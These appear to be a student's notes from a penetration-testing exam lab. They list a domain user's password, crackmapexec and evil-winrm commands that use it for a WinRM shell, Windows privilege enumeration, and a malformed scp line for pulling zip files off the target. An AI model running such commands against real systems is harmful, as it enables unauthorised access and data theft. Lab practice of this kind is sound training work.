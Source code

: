 # Info  

```
WinRM was possibly detected running on tcp port 5985.

192.168.114.206
domain: oscp.exam 
Username: r.andrews
Password: BusyOfficeWorker890


crackmapexec winrm 192.168.114.206 -d 'oscp.exam' -u 'r.andrews' -p 'BusyOfficeWorker890'

evil-winrm -u 'r.andrews' -p 'BusyOfficeWorker890' -i 192.168.114.206
```

![[{9B55F53D-AA74-45EA-B0B1-DE3501603A33}.png]]

route print
 
![[{9FDEC911-B21A-48CF-8B4C-8076E011DFEF}.png]]

whoanmi /priv
![[{D17E4A18-07E0-49ED-8246-07263978FC16}.png]]

whoami /all
![[{CA8A2C8F-835B-4705-BA62-3F24BE990064}.png]]


whoami /user
```
*Evil-WinRM* PS C:\Users\r.andrews\Documents> whoami /user

USER INFORMATION
----------------

User Name      SID
============== ==============================================
oscp\r.andrews S-1-5-21-2468442526-2906141135-4054829294-1105

```

get file online

scp 192.168.49.114@192.168.114.206 :C:\Temp\*.zip /path/to/your/dir